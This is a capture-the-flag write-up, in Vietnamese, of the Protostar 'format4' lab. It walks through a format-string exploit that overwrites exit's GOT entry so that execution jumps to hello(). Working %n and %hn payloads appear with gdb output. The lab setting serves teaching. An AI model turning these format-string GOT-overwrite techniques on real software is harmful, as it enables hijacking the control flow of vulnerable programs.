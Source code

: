 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `main()` và  `vuln()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Input chương trình bắt đầu ở parameter thứ 4.

```
root@protostar:/opt/protostar/bin# ./format4
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd8420 0xbffffb04 0x414141c3 0x70252041 0x20702520
```

Địa chỉ hàm `hello()` = 0x80484b4.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là địa chỉ `GOT của exit(1)` = 0x8049724.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal | 180  |  388 |  516 |  776 |
Đã có   |  16  |  180 | 388  |  516 |
Cần     |  164 | 208  | 128  | 260  |
para    |  4   |  5   |  6   |   7  |
Addr:
0x80497xx| 24  | 25   | 26   |  27  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$n" + "%208x" + "%5$n" + "%128x" + "%6$n" + "%260x" + "%7$n"' | ./format4
$%&'                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffffb04                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

Cách điền `hn-hn` bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%" + str(0x84b4 - 8) + "x%4$hn" + "%" + str(0x10804 - 0x84b4) + "x%5$hn"' | ./format4
```

## Documents

Bạn có thể đọc phần Format String của cuốn này: <https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>

<https://www.exploit-db.com/papers/13203>



